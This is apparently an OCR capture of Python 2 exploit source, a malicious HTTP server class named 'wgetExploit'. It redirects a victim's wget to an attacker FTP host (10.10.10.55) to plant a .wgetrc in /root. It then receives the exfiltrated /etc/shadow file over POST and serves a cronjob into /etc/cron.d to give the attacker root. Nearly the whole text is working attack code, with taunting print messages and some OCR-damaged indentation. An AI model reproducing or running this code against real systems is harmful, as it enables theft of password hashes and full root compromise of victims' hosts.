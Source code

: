     class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_GET(self):
        # This takes care of sending .wgetrc

        print "We have a volunteer requesting " + self.path + " by GET :)\n"
        if "Wget" not in self.headers.getheader('User-Agent'):
        print "But it's not a Wget :( \n"
            self.send_response(200)
            self.end_headers()
            self.wfile.write("Nothing to see here...")
            return

        print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
        self.send_response(301)
        new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
        print "Sending redirect to %s \n"%(new_path)
        self.send_header('Location', new_path)
        self.end_headers()

    def do_POST(self):
        # In here we will receive extracted file and install a PoC cronjob

        print "We have a volunteer requesting " + self.path + " by POST :)\n"
        if "Wget" not in self.headers.getheader('User-Agent'):
        print "But it's not a Wget :( \n"
            self.send_response(200)
            self.end_headers()
            self.wfile.write("Nothing to see here...")
            return

        content_len = int(self.headers.getheader('content-length', 0))
        post_body = self.rfile.read(content_len)
        print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

        print "Sending back a cronjob script as a thank-you for the file..."
        print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        self.wfile.write(ROOT_CRON)

        print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

        return

    HTTP_LISTEN_IP = '0.0.0.0'
    HTTP_LISTEN_PORT = 80
    FTP_HOST = '10.10.10.55'
    FTP_PORT = 21
